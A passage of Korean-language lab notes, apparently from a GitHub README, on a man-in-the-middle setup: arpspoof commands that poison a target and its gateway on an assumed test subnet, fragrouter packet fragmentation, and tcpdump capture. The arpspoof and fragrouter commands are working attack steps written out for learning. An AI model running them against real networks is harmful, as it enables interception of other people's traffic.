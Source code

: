 
### 가정된 네트워크 설정
- **호스트 머신 (타겟)**: 198.19.249.2
- **스푸핑 머신 (공격자)**: 198.19.249.3
- **게이트웨이**: 198.19.249.1

### arpspoof 사용 예제
호스트 머신의 트래픽을 가로채기 위해, 스푸핑 머신에서 다음 명령어를 실행   

```bash
# 198.19.249.2(타겟)에게 게이트웨이 198.19.249.1의 MAC 주소를 공격자의 MAC 주소로 속이는 ARP 패킷을 보냄
sudo arpspoof -i eth0 -t 198.19.249.2 198.19.249.1

# 동시에, 스푸핑 머신에서 게이트웨이에도 ARP 스푸핑을 수행
# 게이트웨이 198.19.249.1에게 호스트 머신 198.19.249.2의 MAC 주소를 공격자의 MAC 주소로 속이는 ARP 패킷을 보냄
sudo arpspoof -i eth0 -t 198.19.249.1 198.19.249.2
```

또는 단일 명령어로 양방향 스푸핑을 수행할 수 있음.

```bash
sudo arpspoof -i eth0 198.19.249.2 -r 198.19.249.1
```

> `-r` 옵션을 사용하면 arpspoof는 목표 IP 주소와 게이트웨이 IP 주소 간의 ARP 스푸핑을 동시에 수행할 수 있음.  
> 이는 네트워크에서 게이트웨이 역할을 하는 장치로부터 목표 호스트로 가는 모든 트래픽을 가로챌 수 있게 해줍니다.


### fragrouter 사용 예제
스푸핑 머신에서 네트워크 트래픽을 변조하기 위해 fragrouter를 설정합니다. 예를 들어, 모드 1로 설정하여 패킷을 조각화합니다:

```bash
sudo fragrouter -B1
```

이 명령어는 들어오는 패킷을 조각화하여 트래픽을 변조 및 전달 

- 패킷 수신: 네트워크 인터페이스에서 패킷을 수신합니다.
- 패킷 변조: 설정된 모드에 따라 패킷을 조각화하거나 변조합니다.
- 패킷 전달: 변조된 패킷을 목적지로 전달합니다.

--- 

## 5. tcpdump를 통한 덤프된 패킷을 보는 방법

### tcpdump 기본 설명
`tcpdump`는 네트워크 인터페이스를 통해 들어오고 나가는 패킷을 캡처하고 분석하는 도구입니다.

### tcpdump 설치
- **Ubuntu/Debian**:
  ```bash
  sudo apt-get install tcpdump
  ```

### tcpdump 사용법
패킷을 캡처하기 위해서는 다음 명령어를 사용합니다

```bash
sudo tcpdump -i eth0
```

### 테스트 

#### 스푸핑 머신 (공격자) 에서 패킷 캡쳐  

```bash
# 네트워크 인터페이스 확인 
$ sudo tcpdump -D
```